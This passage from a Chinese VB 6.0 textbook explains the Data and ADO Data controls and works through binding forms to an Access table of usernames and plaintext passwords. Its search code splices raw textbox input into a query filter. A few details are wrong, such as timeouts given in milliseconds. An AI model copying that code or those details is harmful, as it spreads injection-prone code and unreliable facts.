在创建好数据库之后，我们还可以使用 Access 2003 随时修改数据库的结构以及数据表中的内容。


## 4.3 Data 控件

VB 中的 Data 控件可以提供对数据库的连接和访问，它使用起来非常方便。设计人员只需编写极少的代码就可以取得对数据库的访问。

> 说明：可以使用 Data 控件来执行大部分数据访问操作而根本不用编写代码。与 Data 控件相连接的数据觉察控件自动显示来自当前记录的一个或多个字段的数据，或者，在某些情况下，显示来自当前记录旁边的一个记录集合中的一个或者多个字段中的数据。Data 控件在当前记录上执行所有操作。

如果 Data 控件被指示移动到一个不同的记录，则所有被连接的控件自动把当前记录的任何改变传递给 Data 控件以保存在数据库中。Data 控件移动到被指定的记录，同时把当前记录中的数据传回被连接的控件，并在那里显示。

Data 控件自动处理一些意外事件，包括空记录集、添加新记录、编辑和更新现有记录，处理某些类型的错误。然而，在更复杂的应用程序里，则需要捕获 Data 控件不能处理的某些错误类型。例如，当 Microsoft Jet 数据库引擎访问数据文件有问题、没有权限或不能按照代码执行查询时，会导致可捕获的错误。如果错误发生在应用过程开始之前或由于某些内部错误，那 Error 事件会被触发。

### 4.3.1 Data 控件的属性

Data 控件的所有属性请参见下面的表格：

| 属性名 | 描述 |
|---|---|
| Align 属性 | 返回或设置一个值，确定对象是否可在窗体上以任意大小、在任意位置上显示，或是显示在窗体的顶端、底端、左边或右边，而且自动改变大小以适合窗体的宽度。 |
| Appearance 属性 | 返回或设置 MDIForm 或 Form 对象上的控件在设计时的绘图风格。在运行时是只读的。 |
| BackColor 属性 | 返回或设置对象的背景颜色。 |
| ForeColor 属性 | 返回或设置在对象里显示图片和文本的前景颜色。 |
| BOFAction 属性 | 返回或设置一个值，指示在 BOF 属性为 True 时 Data 控件进行什么操作。 |
| EOFAction 属性 | 返回或设置一个值，指示在 EOF 属性为 True 时 Data 控件进行什么操作。 |
| Caption 属性 | 确定显示在控件中还是附在控件之后的文本。 |
| Database 属性 | 返回对 Data 控件的基本的 Database 对象的一个引用。 |
| DatabaseName 属性 | 返回或设置 Data 控件的数据源的名称及位置。 |
| DefaultCursorType 属性 | 控制什么类型的鼠标驱动程序被用于 Data 控件所创建的连接（仅用于 ODBCDirect）。 |

| 属性 | 说明 |
|---|---|
| DragIcon 属性 | 返回或设置图标。它将在拖放操作中作为指针显示。 |
| DragMode 属性 | 返回或设置一个值，确定在拖放操作中所用的是手动还是自动拖动方式。 |
| Enabled 属性 | 返回或设置一个值，该值用来确定一个窗体或控件是否能够对用户产生的事件作出反应。 |
| Exclusive 属性 | 返回或设置一个值，指出 Data 控件的基本数据库是为单用户打开还是为多用户打开。 |
| Font 属性 | 返回一个 Font 对象。 |
| FontBold 属性 | 返回或设置字体样式。 |
| FontItalic 属性 | 返回或设置字体样式。 |
| FontStrikethru 属性 | 返回或设置字体样式。 |
| FontUnderline 属性 | 返回或设置字体样式。 |
| FontName 属性 | 返回或设置在控件中或在运行时画图或打印操作中，显示文本所用的字体。 |
| FontSize 属性 | 返回或设置在控件中或在运行时画图或打印操作中，显示文本所用的字体的大小。 |
| Height 属性 | 返回或设置对象的维数或 DataGrid 控件 Columns 对象的高度。 |
| Width 属性 | 返回或设置对象的维数或 DataGrid 控件 Columns 对象的宽度。 |
| Index 属性（控件数组） | 返回或设置唯一的标识控件数组中一个控件的编号。仅当控件是控件数组的元素时是有效的。 |
| Left 属性 | 返回或设置对象内部的左边与它的容器的左边之间的距离。 |
| Top 属性 | 返回或设置对象的内顶部和它的容器的顶边之间的距离。 |
| MouseIcon 属性 | 返回或设置自定义的鼠标图标。 |
| MousePointer 属性 | 返回或设置一个值，该值指示在运行时当鼠标移动到对象的一个特定部分时，被显示的鼠标指针的类型。 |
| Name 属性 | 返回在代码中用于标识窗体、控件或数据访问对象的名字。在运行时是只读的。 |
| OLEDropMode 属性 | 返回或设置目标部件如何处理拖放操作。 |
| Options 属性 | 返回或设置一个值，说明控件的 Recordset 属性中一个或多个 Recordset 对象特性。 |
| Parent 属性 | 返回包含控件或其它对象或者集合的窗体、对象或集合。 |
| ReadOnly 属性（数据访问） | 返回或设置一个值，确定控件的 Database 是否为只读访问而打开。 |
| Recordset 属性 | 返回或设置由 Data 控件的属性或由现有的 Recordset 对象所定义的 Recordset 对象。 |
| RecordsetType 属性 | 返回或设置一个值，指出 Data 控件创建的 Recordset 对象的类型。 |
| RecordSource 属性 | 返回或设置 Data 控件的基本表、SQL 语句。 |
| RightToLeft 属性 | 双向特征。 |
| Tag 属性 | 返回或设置一个表达式，用来存储程序中需要的额外数据。 |
| ToolTipText 属性 | 返回或设置一个工具提示。 |
| Visible 属性 | 返回或设置一指示对象为可见或隐藏的值。 |
| WhatsThisHelpID 属性 | 返回或设置一个与对象关联的上下文编号。用以为应用程序提供使用 Windows 95 Help 中的“这是什么”弹出式窗口的上下文敏感的 Help。 |

下面介绍其中常用的几个属性。

#### a) BOFAction 属性和 EOFAction 属性

返回或设置一个值，指示在 BOF 或 EOF 属性为 True 时 Data 控件进行什么操作。它的基本形式是：

```vb
Data控件名.BOFAction [= integer]
Data控件名.EOFAction [= integer]
```

对于 BOFAction 属性来说，integer 设置值为：

| 设置 | 值 | 描述 |
|---|---:|---|
| vbBOFActionMoveFirst | 0 | MoveFirst（缺省设置）：将第一个记录为当前记录。 |
| vbBOFActionBOF | 1 | 在 Recordset 的开头移动过去将在第一个记录上触发 Data 控件的 Validate 事件，紧跟着是非法（BOF）记录上的 Reposition 事件。此刻禁止 Data 控件上的 Move Previous 按钮。 |

对于 EOFAction 属性来说，integer 设置值为：

| 设置 | 值 | 描述 |
|---|---:|---|
| vbEOFActionMoveLast | 0 | MoveLast（缺省设置）：保持最后一个记录为当前记录。 |
| vbEOFActionEOF | 1 | 在 Recordset 的结尾移过去，这将在最后一个记录上触发 Data 控件的 Validate 事件。 |

紧跟着是在非法（EOF）记录上的 Reposition 事件。此刻禁止 Data 控件上的 MoveNext 按钮。

`vbEOFActionAddNew` 2 `AddNew`；移过最后一个记录将在当前记录上触发 Data 控件的 Validate 事件，紧跟着是自动的 AddNew，接下来是在新记录上的 Reposition 事件。

#### b) Database 属性

返回对 Data 控件基本 Database 对象的一个引用。它的基本形式是：`Set database对象名 = Data控件名.Database`（仅用于专业版和企业版）。

> **说明：**
>
> ① 由 Data 控件所创建的 Database 对象是以该控件的 DatabaseName、Exclusive、ReadOnly 和 Connect 属性为基础创建的。
>
> ② Database 对象具有可以用来管理数据的属性和方法。通过 Data 控件的 Database 属性，可以使用 Database 对象的任何方法，比如 Close 和 Execute 方法。也可以通过使用 Database 的 TableDefs 集合，并依次使用单个 TableDef 对象的 Fields 和 Indexes 集合的方法来检查 Database 的内部结构。
>
> ③ 虽然可以创建一个 Recordset 对象并将它传递给 Data 控件的 Recordset 属性，但不能打开一个数据库并将新创建的 Database 对象传递给 Data 控件的 Database 属性。

#### c) DefaultType 属性

返回或设置一个确定 Data 控件所使用的数据源（Jet 或 ODBCDirect）的类型值。基本形式是：`Data控件名.DefaultType [= Value]`。Value 的设置值可以为：

| 设置 | 值 | 描述 |
|---|---:|---|
| dbUseODBC | 1 | 使用 ODBCDirect 来访问数据。 |
| dbUseJet | 2 | （缺省设置）使用 Microsoft Jet 数据库引擎来访问数据。 |

> **说明：**设置 DefaultType 属性将告诉 Data 控件在创建 Recordset 时使用哪种类型的数据源（Jet 或 ODBCDirect）。DefaultType 属性也确定 Data 控件使用的基本 Workspace 对象的类型。除非这个属性被设置为 dbUseJet，Jet 数据库引擎将不会被加载。

当将 DefaultType 属性设置为 dbUseODBC 时，Visual Basic 创建一个新的 Workspace 对象并将它添加到 Workspaces 集合中。Data 控件的 DefaultType 属性同 CreateWorkspace 方法的 type 参数相似。当使用 dbUseJet 时，将使用缺省的 Workspace 对象。

> **注意：**当选择 dbUseODBC 作为 DefaultType 属性的值时，DAO 通过远程数据对象（RDO）DLL 来进行所有数据访问操作。如果在 DefaultType 属性中选定“1—UseODBC”，则必须在 Connect 属性框中指定 ODBC 连接字符串。为此，选定文本，然后输入 ODBC 连接字符串。有关 ODBC 连接字符串的更多信息，请参阅 Visual Basic《数据访问指南》。

> **选择数据源：**

数据访问对象（DAO）可以被编程，并以两种方法之一来连接远程 ODBC 数据源：通过 Jet 数据库引擎或通过完全绕过 Jet 的远程数据对象（RDO）。哪种方法对于特定的应用程序有意义，这要视所需的功能和性能而定。

使用 ODBCDirect：这种方法允许使用 Data 控件通过 RDO 接口而不是通过 ODBC 数据源进行所有的 DAO 操作。也就是说，当建立连接并使用 Data 控件来创建 Recordset 对象时，Jet 数据库引擎不被加载。这还意味着 Jet 引擎所提供的许多 DAO 功能在此 Workspace 中是不可用的。例如，不能执行异种连接，或在不使用附加的 ODBC 驱动程序就访问 mdb 数据库中的 ISAM。不过，当选择 ODBCDirect 时，许多不为 Jet 所普遍支持的 RDO 功能是有效的。

使用 Jet 数据库引擎：除非使 ODBCDirect 有效，否则 Jet 数据库引擎被装载并执行所有本地和远程的数据操作。一旦创建 Jet Workspace，就可以用它向 ODBCDirect Workspace 传递数据。

#### d) Exclusive 属性

返回或设置一个值，指出 Data 控件的基本数据库是为单用户打开还是为多用户打开。它的基本形式是：`Data控件名.Exclusive [= Value]`。Value 的设置值为：

| 设置 | 描述 |
|---|---|
| True | 数据库为单用户访问而打开。在它关闭前其它用户不能打开该数据库。 |
| False | （缺省设置）数据库为多用户访问而打开。其它用户可以打开该数据库，并可以在它打开时访问数据。 |

> **说明：**此属性值连同 `DatabaseName`、`ReadOnly` 和 `Connect` 属性一起用于打开数据库。在专业版和企业版中，此属性同 `OpenDatabase` 方法中的排他性参数一致。

`Exclusive` 属性仅在打开 `Database` 时使用。如果在运行时改变此属性的值，则必须使用 `Refresh` 方法来使之生效。如果其它某个用户已经打开了此数据库，则将不能排他地打开数据库，并且会导致一个可捕获的错误。

如果排他地打开数据库，则数据库操作会快一些。

在排他打开数据库后，应用程序可以打开所需的多个实例。不过，正在系统上运行的其它应用程序将不得打开此数据库。

`Exclusive` 属性会因通过 `ODBC` 访问数据库而被忽视。

#### e) Recordset 属性

返回或设置由 Data 控件的属性或由现有的 Recordset 对象所定义的 Recordset 对象。它的基本形式是：`Set Data控件名.Recordset [= Value]`。其中 Value 是一个包含 Recordset 对象的对象变量。

#### f) ReadOnly 属性

返回或设置一个值，确定控件的 Database 是否为只读访问而打开。它的基本形式是：`Data控件名.ReadOnly [= Boolean]`。Boolean 的设置值可以是：

| 设置 | 描述 |
|---|---|
| True | 控件的 Database 对象的打开方式为只读，不允许对数据进行修改。 |
| False | （缺省设置）控件的 Database 对象的打开方式为读/写方式。 |

> **说明：**使用 Data 控件的 `ReadOnly` 属性来指定基本 Database 中的数据是否可以修改。例如，可以创建一个仅显示数据的应用程序。使用只读结果集访问 Database 运行起来也会更快。

对 Data 控件来说，此属性仅在应用程序第一次打开数据库时才使用。如果应用程序随后又打开数据库的其它实例，则该属性被忽视。为了使此属性中的改变生效，必须关闭数据库的所有实例，然后再使用 `Refresh` 方法。

在专业版和企业版中，此属性同 `OpenDatabase` 方法中的 readonly 参数一致。

#### g) RecordsetType 属性

返回或设置一个值，指出 Data 控件创建的 Recordset 对象的类型。基本形式是：`Data控件名.RecordsetType [= Value]`。Value 的设置值为：

| 设置 | 值 | 描述 |
|---|---:|---|
| vbRSTypeTable | 0 | 一个表类型 Recordset。 |
| vbRSTypeDynaset | 1 | （缺省设置）一个 dynaset 类型 Recordset。 |
| vbRSTypeSnapshot | 2 | 一个快照类型 Recordset。 |

> **说明：**如果 Microsoft Jet 数据库引擎不能创建所请求的 Recordset 类型，则将产生一个可捕获的错误。

如果在 Data 控件创建 Recordset 前没有指定 RecordsetType，则一个 dynaset 类型的 Recordset 将被创建（如果可能的话）。

如果不使用 Data 控件（即使是另一个 Data 控件）创建 Recordset，并且用这个新 Recordset 对象来设置 Recordset 属性，则 Data 控件的 RecordsetType 属性被设置为新 Recordset 的 `Recordset.Type` 属性。

#### h) RecordSource 属性

返回或设置 Data 控件的基本表、SQL 语句。基本形式是：`Data控件名.RecordSource [= Value]`。Value 的设置值为：

| 设置 | 描述 |
|---|---|
| 表名称 | 在 Database 对象的 TableDefs 集合中定义的一张表的名称。 |
| SQL 查询 | 符合数据源语法的合法 SQL 字符串。 |
| Stored procedure | Database 对象的 QueryDefs 集合中的一个 QueryDef 对象的名称。 |

### 4.3.2 Data 控件的方法

Data 控件的所有方法请参考下面的表格：

| 方法 | 说明 |
|---|---|
| Drag 方法 | 用于控件的开始、结束或取消拖动操作。不支持命名参数。 |
| Move 方法 | 用以移动 MDIForm、Form 或控件。 |
| OLEDrag 方法 | 引起部件初始化 OLE 拖放操作。 |
| Refresh 方法 | 强制重绘一个窗体或控件。 |
| ShowWhatsThis 方法 | 显示 Windows 95 Help 所提供的“这是什么”弹出式窗口中使用的 Help 文件中选定的一个主题。 |
| UpdateControls 方法 | 从一个 Data 控件的 Recordset 对象中取得当前记录，并且在连接某个 Data 控件的控件中显示适当的数据。不支持已命名参数。 |
| UpdateRecord 方法 | 保存被连接控件的当前值。不支持已命名参数。 |
| ZOrder 方法 | 将指定的 MDIForm、Form 或控件放置在其图层的 z-顺序的前端或后端。不支持命名参数。 |

#### a) UpdateControls 方法

从一个 Data 控件的 Recordset 对象中取得当前记录，并且在连接某个 Data 控件的控件中显示适当的数据。该方法的基本形式是：`Data控件名.UpdateControls`。使用它可以取消之前更改的数据而显示出最原始的数据。

### 4.3.3 Data 控件的事件

Data 控件的所有事件请参考下面的表格内容：

| 事件 | 说明 |
|---|---|
| DragDrop 事件 | 在一个完整的拖放动作（即将一个控件拖动到一个对象上，并释放鼠标按钮）完成，或使用 Drag 方法并将其 action 参数设为 2（Drop）时，该事件发生。 |
| DragOver 事件 | 它在拖放操作正在进行时发生。可用此事件对鼠标指针在一个有效目标上的进入、离开或停顿等进行监控。鼠标指针的位置决定接收此事件的目标对象。 |
| Error 事件 | 仅当没有 Visual Basic 代码在执行时，数据存取错误这样的结果才会出现。 |
| MouseDown 事件 | 这些事件在按下（MouseDown）鼠标按钮时发生。 |
| MouseUp 事件 | 这些事件在释放（MouseUp）鼠标按钮时发生。 |
| MouseMove 事件 | 此事件在移动鼠标时发生。 |
| OLECompleteDrag 事件 | 当源部件被放到目标部件时发生，并通知源部件拖放操作被执行或取消。 |
| OLEDragDrop 事件 | 当源部件决定拖放操作能发生，且源部件被放到目标部件时，此事件发生。 |
| OLEDragOver 事件 | 当一个部件在另一个部件上拖动时发生。 |
| OLEGiveFeedback 事件 | 在每个 OLEDragOver 事件后发生。OLEGiveFeedback 允许源部件提供可视反馈，例如通过改变鼠标图标来表明放到目标后将发生什么，或者在选项上提供可视反馈（在源部件中）以指出将发生什么。 |
| OLESetData 事件 | 当目标部件在源的 DataObject 对象上执行 GetData 方法，但是还没有加载规定格式的数据时，在源部件上发生。 |
| OLEStartDrag 事件 | 当部件的 OLEDrag 方法被执行时，或者在 OLEDragMode 属性被设为 Automatic、部件初始化 OLE 拖放时发生。 |
| Reposition 事件 | 在一条记录成为当前记录之后出现。 |
| Resize 事件 | 当一个对象第一次显示或当一个对象的窗口状态改变时该事件发生。（例如，一个窗体被最大化、最小化或被还原。） |
| Validate 事件 | 在一条不同的记录成为当前记录之前，Update 方法之前（用 UpdateRecord 方法保存数据时除外）；以及 Delete、Unload 或 Close 操作之前会发生该事件。 |

#### a) Reposition 事件

该事件在一条记录成为当前记录之后出现。当加载一个 Data 控件时，Recordset 对象中的第一条记录成为当前记录，会发生 Reposition 事件。无论何时只要用户单击 Data 控件上某个按钮，进行记录间的移动，或者使用了某个 Move 方法（如 MoveNext）、Find 方法（如 FindFirst），或任何其它改变当前记录的属性或方法，在每条记录成为当前记录以后，均会发生 Reposition 事件。

#### b) Validate 事件

在一条不同的记录成为当前记录之前，Update 方法之前（用 UpdateRecord 方法保存数据时除外）以及 Delete、Unload 或 Close 操作之前会发生该事件。它的基本形式是：

```vb
Private Sub Data控件名_Validate ([index As Integer,] action As Integer, save As Integer)
```

Validate 事件的语法有下列部分：

| 部分 | 描述 |
|---|---|
| object | 是一个对象表达式，该对象一定能在“应用于”列表中找到。 |
| index | 如果它在一个控件数组中，则可用来识别该控件。 |
| action | 如设置中所描述的，是一个整数，用来指示引发这种事件的操作。 |
| save | 如设置中所描述的，是一个布尔表达式，用来指定被连接的数据是否改变。 |

action 的设置为：

| 常数 | 值 | 描述 |
|---|---:|---|
| vbDataActionCancel | 0 | 当 Sub 退出时取消操作 |
| vbDataActionMoveFirst | 1 | MoveFirst 方法 |
| vbDataActionMovePrevious | 2 | MovePrevious 方法 |
| vbDataActionMoveNext | 3 | MoveNext 方法 |
| vbDataActionMoveLast | 4 | MoveLast 方法 |
| vbDataActionAddNew | 5 | AddNew 方法 |
| vbDataActionUpdate | 6 | Update 操作（不是 UpdateRecord） |
| vbDataActionDelete | 7 | Delete 方法 |
| vbDataActionFind | 8 | Find 方法 |
| vbDataActionBookmark | 9 | Bookmark 属性已被设置 |
| vbDataActionClose | 10 | Close 方法 |
| vbDataActionUnload | 11 | 窗体正在卸载 |

save 的设置为：

| 设置 | 描述 |
|---|---|
| True | 被连接数据已被改变。 |
| False | 被连接数据未被改变。 |

### 4.3.4 Data 控件使用示例

Data 控件使用十分方便，我们只需要编写少量的代码，就可以实现丰富的功能。请读者朋友注意操作的步骤。

首先要很遗憾地告诉读者朋友，使用 Access 2003 建立的数据库是不能直接使用 Data 控件来连接的。所以，首先我们必须转换一下数据库的格式。打开我们之前建立的数据库 D:\db1.mdb，在工具栏中找到“工具”->“数据库实用工具”->“转换数据库”->“转为 Access 97 文件格式”。这样就可以把数据库转换为较低版本的 Access 97 数据库，也就能够使用 Data 控件来连接了。我们将 Access 97 数据库转换到 D:\db2.mdb。


使用 VB 6.0 新建一个工程，窗体中的控件基本布局如图 4-10 所示。

我们需要绘制 4 个 TextBox（前三个用于显示 Id、UserName、Password，最后一个用于输入查询的用户名）、一个 Data 控件、5 个按钮（依次是下一条、上一条、新增记录、删除记录、查找）。绘制好控件后，我们来设置各控件的属性。将之前建立的数据库放到程序根目录下，这样可以方便连接。然后选择 Data 控件的 Database 属性来设置需要连接的数据库路径，如图 4-11 所示。


接下来设置 Data 控件的 RecordSource 属性，如图 4-12 所示，选择一个表即可，这里我们选择“Admin”表。下一步设置 Data1 的 RecordsetType 为 1，也就是 Dynaset，这也是默认的设置，如图 4-13 所示。


为了使 Text1、Text2、Text3 与 Data1 绑定，我们需要设置它们的 DataSource 属性，如图 4-14 所示，我们设置成 Data1。要想在 Text1 中显示 Id 信息，就需要设置 Text1 的 DataField 属性为“ID”，如图 4-15 所示。


同样的方法，我们再设置 Text2 的 DataField 属性为“UserName”，Text3 的 DataField 属性为“Password”。此时我们运行程序，可以发现，使用 Data 控件上的各个按钮，已经可以浏览每一条记录了，如图 4-16 所示。

下面为各个按钮添加代码。首先为“下一条”和“上一条”按钮添加代码：

```vb
Private Sub Command1_Click()
    Data1.Recordset.MoveNext            ' 移动到下一条记录
    If Data1.Recordset.EOF Then         ' 如果已经最后一条记录之后，移到第一条记录
        Data1.Recordset.MoveFirst
    End If
End Sub

Private Sub Command2_Click()

```

```vb
Data1.Recordset.MovePrevious        ' 移动到上一条
If Data1.Recordset.BOF Then         ' 如果已在第一条记录之前，则移动到最后一条记录
    Data1.Recordset.MoveLast
End If

End Sub
```

上面的代码中，如果我们在最后一条记录处再点击“下一条”，则会移动到第一条；如果我们在第一条记录处再点击“上一条”，则会移动到最后一条。为“新增记录”按钮添加代码：

```vb
Private Sub Command3_Click()
    Data1.Recordset.AddNew      ' 新增一条记录
End Sub
```

当用户单击这个按钮，就会新增一条记录，Text2 和 Text3 中的内容默认是空白的，如果用户输入了其他内容，则会自动保存到数据库中。为“删除记录”按钮添加代码：

```vb
Private Sub Command4_Click()
    Data1.Recordset.Delete       ' 删除当前记录
    Data1.Refresh                ' 强制重绘控件，显示的记录会刷新
End Sub
```

看看怎样使用 Data 控件查找记录：

```vb
Private Sub Command5_Click()
    ' 查询用户名和 Text4 中内容匹配的第一条记录
    Data1.Recordset.FindFirst "UserName='" & Text4.Text & "'"
    If Data1.Recordset.NoMatch Then   ' 如果没有找到相关记录，则提示
        MsgBox "对不起，没有找到匹配的记录"
    End If
End Sub
```

Data 控件的简单使用就介绍到这里。我们再介绍一个使用得更普遍的控件——Microsoft Data Control 控件（Adodc 控件）。

## 4.4 Microsoft Data Control 6.0 控件

在使用控件进行数据库编程时，Microsoft Data Control 6.0（Ado Data）控件的使用比 Data 控件更加普遍，它的功能也更加全面。

由于 Ado Data 控件不是基本控件，在使用的时候我们需要自行添加。在工具箱中单击右键选择“部件”，勾选“Microsoft Data Control 6.0”确定即可，这样就可以把 Ado Data 控件添加到工具箱中了。

下面介绍 Ado Data 控件的基本属性、方法和事件。

### 4.4.1 Ado Data 控件的属性

Ado Data 控件的所有属性请参考下面的表格：

| 属性名 | 功能描述 |
|---|---|
| Align 属性 | 返回或设置一个值，确定对象是否可在窗体上以任意大小、在任意位置上显示，或是显示在窗体的顶端、底端、左边或右边，而且自动改变大小以适合窗体的宽度。 |
| Appearance 属性 | 返回或设置 MDIForm 或 Form 对象上的控件在设计时的绘图风格。在运行时是只读的。 |
| BOF 属性 | 指示当前记录位置位于 RecordSet 对象的第一条记录之前。 |
| EOF 属性 | 指示当前记录位置位于 RecordSet 对象的最后一条记录之后。 |
| BOFAction 属性 | 返回或设置一个值，指示在 BOF 属性为 True 时 Data 控件进行什么操作。 |
| EOFAction 属性 | 返回或设置一个值，指示在 EOF 属性为 True 时 Data 控件进行什么操作。 |
| BackColor 属性 | 返回或设置对象的背景颜色。 |
| ForeColor 属性 | 返回或设置在对象里显示图片和文本的前景颜色。 |
| Caption 属性 | 确定显示在控件中还是附在控件之后的文本。 |
| CacheSize 属性 | 指示缓存在本地内存中的 RecordSet 对象的记录数。 |
| CommandTimeout 属性 | 指示在终止尝试和产生错误之前执行命令期间需等待的时间。 |
| CommandType 属性 | 指示 Command 对象的类型。 |
| ConnectionString 属性 | 包含用来建立到数据源的连接的信息。 |
| Container 属性 | 返回或设置 Form 上控件的容器。在设计时不能使用。 |
| ConnectionTimeOut 属性 | 指示在终止尝试和产生错误前建立连接期间所等待的时间。 |
| CursorLocation 属性 | 返回或设置游标引擎的位置。 |
| CursorType 属性 | 指示在 RecordSet 对象中使用的游标类型。 |
| DragIcon 属性 | 返回或设置图标，它将在拖放操作中作为指针显示。 |
| DragMode 属性 | 返回或设置一个值，确定在拖放操作中所用的是手动还是自动拖动方式。 |
| Font 属性 | 返回一个 Font 对象。 |
| Height 属性 | 返回或设置对象的维数或 DataGrid 控件 Columns 对象的高度。对于 Printer 和 Screen 对象，在设计时不可用。 |
| Width 属性 | 返回或设置对象的维数或 DataGrid 控件 Columns 对象的宽度。对于 Printer 和 Screen 对象，在设计时不可用。 |
| Index 属性（控件数组） | 返回或设置唯一地标识控件数组中一个控件的编号。仅当控件是控件数组的元素时有效。 |
| Left 属性 | 返回或设置对象内部的左边与它的容器的左边之间的距离。 |
| Top 属性 | 返回或设置对象的内顶部和它的容器的顶边之间的距离。 |
| KeySetSize 属性 | 返回或设置一个值，用于指示在键集缓存区中的行数。 |
| LockType 属性 | 指示在编辑过程中对记录使用的锁定类型。 |
| MaxRecords 属性 | 指示通过查询返回的 RecordSet 对象中的记录的最大数目。 |
| Mode 属性 | 指示用于在更改 Connection 中的数据的可用权限。 |
| Name 属性 | 返回在代码中用于标识窗体、控件或数据访问对象的名字。在运行时是只读的。 |
| Object 属性 | 返回一个对控件的属性或方法的引用，它们具有 Visual Basic 对该控件自动扩展的属性或方法相同的名字。 |
| Orientation 属性 | 返回或设置一个值，该值指出文档是以纵向还是横向的方式被打印。在设计时不可用。 |
| Parent 属性 | 返回包含控件、或其它对象或者集合的窗体、对象或集合。 |
| Password 属性 | 设置 ADO Recordset 对象创建过程中所使用的口令。 |
| Recordset 属性 | 返回或设置对下一级 ADO Recordset 对象的引用。 |
| RecordSource 属性 | 返回或设置语句或返回一个记录集的查询。 |
| TabIndex 属性 | 返回或设置父窗体中大部分对象的 TAB 键次序。 |
| TabStop 属性 | 返回或设置一个值，该值用来指示是否能够使用 TAB 键将焦点从一个对象移动到另一个对象。 |
| Tag 属性 | 返回或设置一个表达式，用来存储程序中需要的额外数据。与其它属性不同，Tag 属性值不被 Visual Basic 使用，可以用该属性来标识对象。 |
| ToolTipText 属性 | 返回或设置一个工具提示。 |
| UserName 属性 | 返回或设置一个值，该值代表了 ADO Recordset 对象的一个用户。 |
| Visible 属性 | 返回或设置一指示对象为可见或隐藏的值。 |
| WhatsThisHelpID 属性 | 返回或设置一个与对象关联的上下文编号。用以为应用程序提供使用 Windows95 Help 中“这是什么”弹出式窗口的上下文敏感 Help。 |

上面列出了其所有属性，下面对其中几个重要的属性做一些介绍。

### a）EOF 属性、BOF 属性

BOF 属性用于指示当前记录的位置是否位于 RecordSet 对象的第一条记录之前。如果 BOF 属性的值是 True，那么当前记录在 RecordSet 对象的第一条记录之前。EOF 属性用于指示当前记录的位置是否位于 RecordSet 对象的最后一条记录之后。如果 EOF 属性的值是 True，那么当前记录在 RecordSet 对象的最后一条记录之后。使用 EOF 属性和 BOF 属性的值，可以判断我们是否已经移到了 RecordSet 对象中的记录之外。例如，当 EOF 属性为 True 的时候，表明我们已经把记录移动到了最后一条记录之后，此时，我们可以采取将记录移动到第一条的方法来为用户展示信息。

### b）CommandTimeout 属性和 ConnectionTimeout 属性

CommandTimeout 属性用于指示在终止尝试和产生错误之前执行命令期间需等待的时间。而 ConnectionTimeOut 属性用于指示在终止尝试和产生错误前建立连接期间所等待的时间。它们都是以毫秒为单位的，基本形式为：

```
Ado Data 控件名.CommandTimeout = [Value]
Ado Data 控件名.ConnectionTimeout = [Value]
```

使用 Connection 对象或者 Command 的 CommandTimeout 属性，允许由于网络阻塞或者服务器过载产生的延迟而取消 Execute 方法的调用。

### c）ConnectionString 属性

该属性包含用来建立到数据源的连接信息。基本形式是：Ado Data 控件名.ConnectionString [= Value]。Value 的值指定数据源的连接信息。字符串中可以指定如下参数：Provider 参数用来指定连接的提供者名称；FileName 参数指定包含预先设置连接信息的特定提供者的文件名称；Remote Provider 参数指定打开客户端连接时使用的提供者名称；Remote Server 参数指定打开客户端连接时使用的服务器路径名称。

### d）Recordset 属性

该属性返回或设置对下一级 ADO Recordset 对象的引用。基本形式是：Ado Data 控件名.Recordset [= Recordset]。这里中括号中的 Recordset 是一个记录集对象。

### e）RecordSource 属性

该属性返回或设置一个记录集的查询。它的基本形式是：Ado Data 控件名.RecordSource [= Value]。objectValue 可设置的值为：

| 设置值 | 描述 |
|---|---|
| 表名称 | 一个数据库表的名称。 |
| SQL 查询 | 一个有效的 SQL 字符串，该字符串使用了适合于数据源的语法。 |

### 4.4.2 Ado Data 控件的方法

Ado Data 控件的所有方法如下表所示：

| 方法 | 描述 |
|---|---|
| Drag 方法 | 用于除了 Line、Menu、Shape、Timer 或 CommonDialog 控件之外的任何控件的开始、结束或取消拖动操作。不支持命名参数。 |
| Move 方法 | 用以移动 MDIForm、Form 或控件。不支持命名参数。 |
| Refresh 方法 | 强制全部重绘一个窗体或控件。 |
| SetFocus 方法 | 将焦点移至指定的控件或窗体。 |
| ShowWhatsThis 方法 | 显示 Windows95 Help 所提供的“这是什么”弹出式窗口使用的 Help 文件中选定的一个主题。 |
| UpdateControls 方法 | 从控件的 ADO Recordset 对象中获取当前行，并在绑定到此控件的控件中显示相应的数据。 |
| ZOrder 方法 | 将指定的 MDIForm、Form 或控件放置在其图层的 z-顺序的前端或后端。不支持命名参数。 |

对上面的所有方法，我们不再做说明，读者朋友应该比较容易理解。

### 4.4.3 Ado Data 控件的事件

Ado Data 控件的事件请参考下面的表格：

| 事件 | 说明 |
|---|---|
| DragDrop 事件 | 在一个完整的拖放动作（即将一个控件拖动到一个对象上，并释放鼠标按钮）完成，或使用 Drag 方法并将其 action 参数设置为 2（Drop）时，该事件发生。 |
| DragOver 事件 | 它在拖放操作正在进行时发生。可用此事件对鼠标指针在一个有效目标上的进入、离开或停顿等进行监控。鼠标指针的位置决定接收此事件的目标对象。 |
| EndOfRecord 事件 | 移动行时如果超过记录集结尾，则触发该事件。 |
| Error 事件 | 只有在没有执行任何 Visual Basic 代码而发生了一个数据访问错误的情况下，才会发生这个事件。 |
| FetchComplete 事件 | 在将长异步操作中的所有记录已经被恢复到 Record 之后发生。 |
| GotFocus 事件 | 当对象获得焦点时产生该事件；获得焦点可以通过诸如 TAB 切换、单击对象之类的用户动作，或在代码中用 SetFocus 方法改变焦点来实现。 |
| LostFocus 事件 | 此事件是在一个对象失去焦点时发生。焦点的丢失或是由于制表键移动或单击另一个对象操作的结果，或者是代码中使用 SetFocus 方法改变焦点的结果。 |
| MouseDown 事件 | 这些事件是当按下（MouseDown）鼠标按钮时发生。 |
| MouseUp 事件 | 这些事件是当释放（MouseUp）鼠标按钮时发生。 |
| MouseMove 事件 | 此事件在移动鼠标时发生。 |
| Validate 事件 | 在一行变为当前行、Update 或 Delete、Unload 或 Close 等操作之前发生。 |
| WillChangeField 事件 | 在挂起操作对 Record 中的一个或多个 Field 对象值进行更改前发生。 |
| FieldChangeComplete 事件 | 在一个或多个 Field 对象值已经更改后触发该事件。 |
| WillChangeRecord 事件 | 在 RecordSet 中的一个或多个记录（行）更改之前触发。 |
| RecordSetChangeComplete 事件 | 在 RecordSet 中的一个或多个记录发生更改之后触发。 |
| WillMove 事件 | 在挂起操作更改 RecordSet 中的当前位置前触发。 |
| MoveComplete 事件 | 在 RecordSet 的当前位置发生更改后触发。 |

### a）EndOfRecordset 事件

